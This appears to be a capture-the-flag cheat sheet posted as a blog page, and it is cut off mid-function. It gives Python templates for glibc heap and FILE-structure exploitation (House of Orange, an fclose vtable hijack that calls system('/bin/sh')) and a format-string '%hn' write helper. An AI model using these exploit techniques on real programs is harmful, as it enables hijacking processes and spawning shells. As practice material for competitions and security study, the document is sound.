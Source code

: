```yaml
---
layout: post
title:  "CTF Cheat Sheet"
date:   2333-01-01 00:00:00 +0000
categories: jekyll update
---
```


## IO FILE

### House of Orange

```python
fake_file = p64(0)
fake_file += p64(0x61)
fake_file += p64(libc_addr + UNSORT_OFF)
fake_file += p64(libc_addr + e.symbols["_IO_list_all"] - 0x10)
fake_file += p64(2) + p64(3)
fake_file += "\x00" * 8
fake_file += p64(libc_addr + next(e.search('/bin/sh\x00'))) #/bin/sh addr
fake_file += (0xc0-0x40) * "\x00"
fake_file += p32(0) #mode
fake_file += (0xd8-0xc4) * "\x00"
fake_file += p64(libc_addr + IO_STR_FINISH - 0x18) #vtable_addr
fake_file += (0xe8-0xe0) * "\x00"
fake_file += p64(libc_addr + e.symbols["system"])
```

### fclose

```python
#32 bits
fake_file = "/bin/sh\x00" + "\x00" * 0x40 + p32(fake_lock_addr)
fake_file = fake_file.ljust(0x94, "\x00")
fake_file += p32(fake_vtable_addr - 0x44)

#64 bits
fake_file = "/bin/sh\x00" + '\x00' * 0x8
fake_file += p64(system) + '\x00' * 0x70
# the system can also be placed in other memory
fake_file += p64(fake_lock_addr)
fake_file = fake_file.ljust(0xd8, '\x00')
fake_file += p64(buf_addr + 0x10 - 0x88) # fake_vtable_addr
```

## Format String

```python
def hn(pos, val):
	assert val < 0x10000
	if val == 0:
		return "%" + str(pos) + "$hn"
	else:
		return "%" + str(val) + "c%" + str(pos) + "$hn"

def cont_shoot(poses, vals, prev_size = 0):
	assert len(poses) == len(vals)
	size = len(poses)
	ret = ""
	i = 0
	cur_size = prev_size
	next_overflow = ((prev_size + 0xffff) / 0x10000) * 0x10000
	while i < size:
```